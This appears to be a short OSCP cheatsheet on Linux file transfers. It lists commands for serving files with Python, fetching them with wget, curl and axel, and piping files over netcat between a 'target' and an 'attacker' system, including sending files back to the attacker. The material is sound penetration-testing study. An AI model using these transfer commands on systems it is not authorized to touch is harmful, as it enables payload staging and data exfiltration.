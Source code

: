 ```yaml
---
title: Linux File Transfers
author: sKyW1per 
category: "OSCP"
date: "2021-03-20 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Start a webserver
```
Python3
$ sudo python3 -m http.server 80
Python2
$ sudo python -m SimpleHTTPServer 80
```

###### Download from bash
```
$ wget 192.168.1.1:443/file.txt
$ curl 192.168.1.1:443/file.txt -o file.txt
$ axel 192.168.1.1:443/file.txt -o file.txt
```

###### netcat
```
On the target system:
$ nc -lvp 80 > file.txt
On the attacker system:
$ nc 192.168.1.1 80 < file.txt

Also works the other way, to get files back to the attacker system
```
